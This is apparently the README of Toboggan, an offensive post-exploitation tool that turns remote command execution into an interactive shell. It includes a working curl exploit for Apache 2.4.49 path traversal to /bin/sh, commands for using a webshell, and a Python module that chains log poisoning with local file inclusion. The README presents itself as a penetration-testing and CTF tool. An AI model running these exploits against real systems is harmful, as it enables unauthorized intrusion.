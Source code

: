 # Toboggan
🛝 Slide into post-exploitation from RCE with ease! Toboggan is your go-to tool that wraps your remote command execution into a semi-interactive shell, making the post-exploitation phase a breeze.


Getting started with toboggan is as smooth. You can do this by pulling directly from the repository:
```shell
python3 -m pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
``` 

Or, by using [`pipx`](https://pypa.github.io/pipx/) - and you should -, give this a whirl:
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

Thus, you can execute it with the following command:
```shell
toboggan -m /path/to/your/rce.py -i
```

This command loads your rce.py module and propels you into an interactive session for some remote fun. If you're in the mood for a subtler, semi-interactive experience, just drop the `-i` option.

## Built-in modules
### WebShell
Don't have a proper Python3 module on hand? Struck gold with a simple webshell.php? No worries! If your webshell just needs a cmd argument to spill the beans, do the following:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd'
```

Safety first. Always password-protect your shells. If you're the cautious type (and you should be), use Toboggan like this:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd' -p 'password'='@l/=$,dsfsdfm'
```

### System command
If it's a waste of time for you to build a python3 module because you don't like programming, and the vulnerability is easily exploitable with a command line, don't worry, you can use the `-o` or `--os` parameter and pass your command line with the `||cmd||` placeholder. For example, if you encounter a server running with `Apache httpd 2.4.49`, you can directly use:
```shell
toboggan -o 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

## `rce.py` module
An RCE (Remote Code Execution) Python3 module is essentially a Python3 source code crafted to manage your remote code execution. For a module to be compatible with Toboggan, it **must** include a method named **execute**. This method **should have two parameters**: command of type str and timeout of type float.

Here's an example of an RCE module that leverages Log Pollution combined with Local File Inclusion. Admittedly, it's a bit pesky to replay:
```python
# Buit-in imports
import re

# Third party library imports
import httpx

def execute(command: str, timeout: float = None) -> str:
    # Remove the User-Agent header
    response = httpx.get(
        url="http://beachvolley/pong/index.php",
        params={
            "page": r"\..\..\..\..\..\..\..\..\..\..\\xampp\apache\logs\access.log",
            "cmd": command,
        },
        headers={
            "User-Agent": ""
        },
        # ||BURP||
        timeout=timeout,
        verify=False,
    )

    # Check if the request was successful
    response.raise_for_status()

    if match := re.search(
        pattern=r'\|\|START_CMD\|\|(.+?)\|\|END_CMD\|\|',
        string=response.text,
        flags=re.IGNORECASE | re.DOTALL
    ):
        return match.group(1).strip()
```

Remember, this setup is module-dependent. For instance, if your module necessitates `proxychains`, you can effortlessly invoke `toboggan` as shown below:
```shell
proxychains -q toboggan /path/to/your/rce.py
```

### Interactivity methods used

#### Unix
The Unix environment offers a plethora of inter-process communication (IPC) mechanisms. One such fascinating tool is the mkfifo, colloquially known as a "named pipe". This one-way IPC is often a go-to when one wishes to emulate a remote interactive shell session over an inherently non-interactive medium - think HTTP requests or rudimentary command execution interfaces.

At its heart, a named pipe, or FIFO (First In, First Out), is an avenue to smoothly transition through an RCE in restrictive scenarios, such as those barricaded behind firewalls, making it feel almost like you're operating in a pseudo-TTY.

**Why the insistence on a separate polling thread**? Imagine sending a command with an indefinite waiting period (like the notorious `top` or the sluggish `sleep 10000`). Without a distinct thread to handle these, the main application would be ensnared in a deadlock, patiently awaiting the command's conclusion. Enter the read thread. Its primary role is to juggle the outputs of these prolonged commands, ensuring the main loop is unimpeded and ever-ready for fresh input or commands.

#### Windows
Not done yet

## Contributing

"Toboggan" is an open-source project, and we welcome contributions. Feel free to submit issues, feature requests, or pull requests on the GitHub repository. In order to create a Pull Request, you can follow those steps:
- Fork the project
- Create your feature branch (`git checkout -b my-new-feature`)
- Commit your changes (`git commit -Sam 'Added some feature'`)
- Push to the branch (`git push origin my-new-feature`)
- Create new **Pull Request**

### Setup

Recommended way for developping inside this project is by using `poetry`. Once this repository cloned, you just have to type `poetry shell` to get your environment ready. 

### Test your implementation
If you want to create a `pipx` special installation, you can do the following command inside the root of the project:
```shell
pipx install . --suffix '-test'
```

### Building a proper `pip` package
If you want to try building the tool with a real package, you firstly run `poetry build` and then:
```shell
python3 -m pip install dist/toboggan*.whl --force-reinstall
```

---

_N.B._ If you really want to use old maneers, you can still create a `requirements.txt` file using the following `poetry` commands:
```shell
poetry export -f requirements.txt > requirements.txt
```

## Disclaimer
Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments. Unauthorized use of this tool on systems you do not own or without proper authorization may be illegal. Please use "Toboggan" responsibly and in compliance with applicable laws and regulations.

## License
This project is licensed under the MIT License. See the LICENSE file for more details.
